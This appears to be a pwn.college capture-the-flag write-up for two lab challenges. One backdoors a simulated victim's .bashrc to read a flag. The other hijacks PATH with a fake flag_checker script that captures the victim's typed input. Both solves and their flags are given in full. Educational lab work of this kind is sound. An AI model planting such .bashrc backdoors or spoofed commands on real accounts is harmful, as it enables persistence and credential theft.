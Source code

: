# Silly Shenanigans

## Bashrc Backdoor
In this challenge, we'll pretend that you've broken into a victim user's machine! That user is named `zardus`, with a home directory of `/home/zardus.` You, as the hacker user, have write access to his `.bashrc`, and `zardus` has read-access to `/flag`. The victim is simulated by the script `/challenge/victim`, and you can launch this script at any time to observe the victim logging into the computer. Can you get the flag?
### Solve
**Flag:** `pwn.college{coMUMbhY9HDtEI7M1_70HoxyTCs.0VMzEzNxwyNyAzNzEzW}`
- Change dir to `/home/zardus`
- Open `.bashrc` file in write mode.
- add the line `cat /flag` since he has read permissions for that file.
- run the `/challenge/victim` script.
> `.bashrc` contents
```bash
# this sets up a scary red shell prompt!
PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

# add your attack below this line!
cat /flag
```
> Output
```bash
hacker@shenanigans~bashrc-backdoor:~$ cd /home/zardus
hacker@shenanigans~bashrc-backdoor:/home/zardus$ ls
hacker@shenanigans~bashrc-backdoor:/home/zardus$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .profile
hacker@shenanigans~bashrc-backdoor:/home/zardus$ code .bashrc
hacker@shenanigans~bashrc-backdoor:/home/zardus$ /challenge/victim
Username: zardus
Password: *********
pwn.college{coMUMbhY9HDtEI7M1_70HoxyTCs.0VMzEzNxwyNyAzNzEzW}
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
```


## Sniffing Input
Your mission is to use your continued write access to Zardus's `.bashrc` to intercept this flag. Remember how you hijacked commands in the Pondering PATH module? Can you use that capability to hijack the `flag_checker`?

`HINT:` Is Zardus getting spooked by your hijack? He's careful --- he checks for the `flag_checker` prompt of Type the flag. Make sure your hijack also prints this prompt (e.g., echo "Type the flag"). 
### Solve
**Flag:** `pwn.college{wN8DGlwpcbeFjj3YKaeQh-S_THw.0VNzEzNxwyNyAzNzEzW}`
- create a fake `flag_checker` file which takes `stdin` and prints it back to the terminal.
- make it executable.
- in `zardus`' `.bashrc` update the `PATH` variable by adding the path `/home/hacker:` to the start of the the variable. This way files in this path will be checked first. This makes the fake `flag_checker` file run instead of the real one.
> fake `flag_checker` content
```bash
#!/bin/bash

echo "Type the flag, victim: "
read flag
echo
echo "$flag"
```